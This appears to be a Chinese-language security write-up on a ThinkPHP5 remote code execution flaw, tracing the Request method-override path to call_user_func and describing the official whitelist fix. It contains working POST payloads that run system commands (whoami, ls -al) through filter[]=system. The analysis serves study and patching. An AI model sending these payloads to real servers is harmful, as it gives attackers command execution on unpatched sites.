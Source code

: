 # ThinkPHP5 远程代码执行2

Author: H3rmesk1t

Data: 2021.08.16

# 漏洞概要
- 本次漏洞存在于 ThinkPHP 底层没有对控制器名进行很好的合法性校验，导致在未开启强制路由的情况下，用户可以调用任意类的任意方法，最终导致远程代码执行漏洞的产生
- 漏洞影响版本：
5.0.0<=ThinkPHP5<=5.0.23 、5.1.0<=ThinkPHP<=5.1.30

# 初始配置

获取测试环境代码

```bash
composer create-project --prefer-dist topthink/think=5.0.20 tpdemo
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/45d4638ea54041578af60d9dae0cea78.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

将 composer.json 文件的 require 字段设置成如下

```bash
"require": {
    "php": ">=5.4.0",
    "topthink/framework": "5.0.23"
},
```

然后执行 `composer update`

![在这里插入图片描述](https://img-blog.csdnimg.cn/24b4f007e8f3428dbf0d89eba49b9218.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
# 漏洞利用

Payload

```bas
# ThinkPHP <= 5.0.13
POST /?s=index/index
s=whoami&_method=__construct&method=&filter[]=system

# ThinkPHP <= 5.0.23、5.1.0 <= 5.1.16 需要开启框架app_debug
POST /
_method=__construct&filter[]=system&server[REQUEST_METHOD]=ls -al

# ThinkPHP <= 5.0.23 需要存在xxx的method路由，例如captcha
POST /?s=xxx HTTP/1.1
_method=__construct&filter[]=system&method=get&get[]=ls+-al
_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=ls
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/25f1195fa70f41b59bf2a19b2ad6a76e.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
# 漏洞分析

从官方的修复代码中可以很明显的看出 `$method` 来自可控的 `$_POST` 数组，而且在获取之后没有进行任何检查直接把它作为 `Request` 类的方法进行调用，同时该方法传入的参数是可控数据 `$_POST`，也就相当于可以随意调用 `Request` 类的部分方法

![在这里插入图片描述](https://img-blog.csdnimg.cn/e3f961e9d0f94aa59b1e59fd551fb4ca.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
![在这里插入图片描述](https://img-blog.csdnimg.cn/da28a256be2c4ab6ba1070cc5a37b5ee.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

同时可以观察到 `Request` 类的 `__construct` 方法中存在类属性覆盖的功能，这对之后的利用非常有利， `Request` 类的所有属性如下

```bash
protected $get                  protected static $instance;
protected $post                 protected $method;
protected $request              protected $domain;
protected $route                protected $url;
protected $put;                 protected $baseUrl;
protected $session              protected $baseFile;
protected $file                 protected $root;
protected $cookie               protected $pathinfo;
protected $server               protected $path;
protected $header               protected $routeInfo 
protected $mimeType             protected $env;
protected $content;             protected $dispatch 
protected $filter;              protected $module;
protected static $hook          protected $controller;
protected $bind                 protected $action;
protected $input;               protected $langset;
protected $cache;               protected $param   
protected $isCheckCache;    
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/ff6d0950d8a34b2fbcdd1b7e05e3c628.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

继续跟进程序发现如果框架在配置文件中开启了 `debug` 模式（ 'app_debug'=true ），程序会调用 `Request` 类的 `param` 方法，这个方法需要特别关注了，因为 `Request` 类中的 `param、route、get、post、put、delete、patch、request、session、server、env、cookie、input` 方法均调用了 `filterValue` 方法，而该方法中就存在可利用的 `call_user_func` 函数。

![在这里插入图片描述](https://img-blog.csdnimg.cn/c3bb1ed0cd044ea9a272d635f7ef29c9.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
![在这里插入图片描述](https://img-blog.csdnimg.cn/1cc13262ebd54df79e83c6d77e8489d1.png#pic_center)


跟进 `param` 方法后发现其调用 `method` 方法， `method` 方法会调用 `server` 方法，而在 `server` 方法中把 `$this->server` 传入了 `input` 方法，这个 `$this->server` 的值可以通过先前 `Request` 类的 `__construct` 方法来覆盖赋值，当可控数据作为 `$data` 传入 `input` 方法时，`$data` 会被 `filterValue` 方法使用 `$filter` 过滤器处理，其中 `$filter` 的值部分来自 `$this->filter` ，又是可以通过先前 `Request` 类的 `__construct` 方法来覆盖赋值

![在这里插入图片描述](https://img-blog.csdnimg.cn/ef7291717452471da4f24992a13f6cc1.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

![在这里插入图片描述](https://img-blog.csdnimg.cn/198a4554f0a14a6e98ff8014024d2340.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

接下来就是 `filterValue` 方法调用 `call_user_func` 处理数据的过程，代码执行也就是发生在这里

![在这里插入图片描述](https://img-blog.csdnimg.cn/d2023f6f9177407fa3775032794aa934.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

接下来再来看看如果没有开启框架调试模式，是否可以利用该漏洞，在 `run` 方法中会执行一个 `exec` 方法，当该方法中的 `$dispatch['type']` 等于 `controller` 或者 `method` 时，又会调用 `Request` 类的 `param` 方法

![在这里插入图片描述](https://img-blog.csdnimg.cn/a3c8d43258d64ca2ad0e65a4b2154df7.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
![在这里插入图片描述](https://img-blog.csdnimg.cn/308730dbbf3e40a9b60f5551cffc4393.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

跟进 `Request` 类的 `param` 方法，其后面的调用过程又会和先前的分析一样了
现在还要解决一个问题，就是如何让 `$dispatch['type']` 等于 `controller` 或者 `method` ，通过跟踪代码发现   `$dispatch['type']` 来源于 `parseRule` 方法中的 `$result` 变量，而 `$result` 变量又与 `$route` 变量有关系，这个 `$route` 变量取决于程序中定义的路由地址方式

![在这里插入图片描述](https://img-blog.csdnimg.cn/5e6e831930bc453bae2191c044ffc477.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
![在这里插入图片描述](https://img-blog.csdnimg.cn/c9a2ae45a77f483abd4ba54a71b07ff8.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

ThinkPHP5 中支持5种路由地址方式定义

|定义方式  |定义格式  |
|--|--|
| 方式1：路由到模块/控制器 |'[模块/控制器/操作]?额外参数1=值1&额外参数2=值2...'  |
|方式2：路由到重定向地址|'外部地址'（默认301重定向） 或者 ['外部地址','重定向代码']|
|方式3：路由到控制器的方法 |'@[模块/控制器/]操作' |
|方式4：路由到类的方法 |'\完整的命名空间类::静态方法' 或者 '\完整的命名空间类@动态方法' |
|方式5：路由到闭包函数 |闭包函数定义（支持参数传入） |

在 ThinkPHP5 完整版中，定义了验证码类的路由地址，程序在初始化时会通过自动类加载机制，将 `vendor` 目录下的文件加载，这样在 `GET` 方式中便多了这一条路由，可以利用这一路由地址使得 `$dispatch['type']` 等于 `method` ，从而完成远程代码执行漏洞

构造出的Payload

```bas
POST /index.php?s=captcha HTTP/1.1
    ⋮
Content-Length: 59

_method=__construct&filter[]=system&method=get&get[]=ls+-al
# 或者
_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=ls
```
# 漏洞修复

官方的修复方法是：对请求方法 `$method` 进行白名单校验

![在这里插入图片描述](https://img-blog.csdnimg.cn/8276fe2e0ac3452cbe8e38e5d51bf33a.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
# 攻击总结

参考Mochazz师傅的审计流程

![在这里插入图片描述](https://img-blog.csdnimg.cn/3ad586d142d6425e81ca5dcda24165cb.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
